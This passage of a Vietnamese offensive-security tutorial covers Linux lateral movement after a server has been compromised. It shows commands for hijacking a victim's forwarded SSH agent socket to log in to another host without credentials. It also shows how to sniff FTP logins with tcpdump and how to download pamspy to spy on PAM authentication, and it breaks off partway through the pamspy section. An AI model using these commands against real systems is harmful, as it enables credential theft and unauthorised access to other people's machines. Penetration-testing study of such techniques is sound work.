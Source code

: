 SSH-Agent là một tiện ích theo dõi các private key của người dùng và cho phép sử dụng chúng mà không cần gõ lại mật khẩu với kết nối mới

Truy cập `/etc/ssh/ssh_config` tiến hành cấu hình SSH Agent Forwarding

```
ForwardAgent yes
```
Khởi động lại SSH Service

```
sudo /etc/init.d/ssh restart
```

Lúc này, bất cứ khi nào nạn nhân sử dụng máy chủ đã bị chiếm quyền điều khiển để SSH vào máy thứ 2 . Ta đều nhận được 1 "session" mà thông qua đó có thể đăng nhập mà không cần tài khoản 

![](https://images.viblo.asia/61817d7b-d303-4f81-a257-45cdd6abe6bc.png)

```
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXlID30k/agent.1608 ssh user@victim
```
![](https://images.viblo.asia/28d5528a-f0d4-4f9c-a1cf-14e490a4780e.png)

# 3. Lateral Movement with tcpdump
Trong trường hợp nơi chúng ta đang đứng là FTP Server, có thể sử dụng tcpdump để "ngửi" các lưu lượng gửi tới, từ đó lấy cắp được thông tin người dùng đăng nhập

Kiểm tra cấu hình mạng nạn nhân với `ifconfig`
![](https://images.viblo.asia/d327b050-ce18-4109-a5c8-6bdf63aafc61.png)

Sử dụng `tcpdump` để theo dõi tất cả kết nối FTP tới, từ đó chiếm thông tin đăng nhập của nạn nhân 


```bash
sudo tcpdump -i eth0 -A port ftp > ~/file.out```
```

![](https://images.viblo.asia/178e8115-a481-417e-89c4-f3ad54fc0041.png)

# 4. Lateral Movement with Pamspy
Pamspy là một công cụ đặc biệt thú vị, nó được tạo ra với mục đích theo dõi thư viện PAM (Pluggable Authentication Modules) - một module chịu trách nhiệm xử lý xác thực trên Linux. Nó giám sát  việc người dùng khác kết nối tới máy nạn nhân thông qua SSH , FTP , SMB  đồng thời cũng theo dõi được việc thay đổi mật khẩu từ sudo và passwd. 

Download công cụ từ github của dự án 
![](https://images.viblo.asia/c570b064-aaa6-4424-8b9a-63146623deae.png)

```
wget https://github.com/citronneur/pamspy/releases/download/v0.2/pamspy 
```
Sử dụng Pamspy để giám sát thay đổi của PAM library 
